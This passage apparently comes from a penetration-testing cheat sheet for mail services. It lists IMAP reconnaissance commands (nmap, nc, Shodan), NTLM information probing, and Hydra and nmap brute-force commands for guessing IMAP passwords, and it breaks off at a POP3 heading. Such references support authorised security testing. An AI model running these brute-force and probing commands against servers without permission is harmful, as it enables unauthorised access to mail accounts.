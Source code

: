     + [ActiveSync(LDAP)](#activesyncldap-2)
    + [ActiveSync(SMB Share)](#activesyncsmb-share-2)
    + [ActiveSync(WSS)](#activesyncwss)
    + [RPC](#rpc)
    + [LDAP](#ldap)
    + [Phishing](#phishing-2)


## IMAP

### Information Gathering


```bash
  nmap [-sS] [-sC] -Pn -p 143,993 -sV --script=banner [IP]
```

```bash
  nc -nv <IP> 993 [IP]
```

```bash
  shodan search "port:143"
```

### Attacks

#### NTLM Auth

```bash
   telnet example.com 143
```

```bash
   a1 AUTHENTICATE NTLM 
```

```bash
   nmap --script=imap-ntlm-info [IP]
```

#### Bruteforce

```bash
   hydra -l USERNAME -P passwords.txt -f [IP] imap -V
```

```bash
   hydra -S -v -l USERNAME -P passwords.txt -s 993 -f [IP] imap -V
```

```bash
   nmap -sV --script imap-brute -p [PORT] [IP]
```

## POP3

### Information Gathering
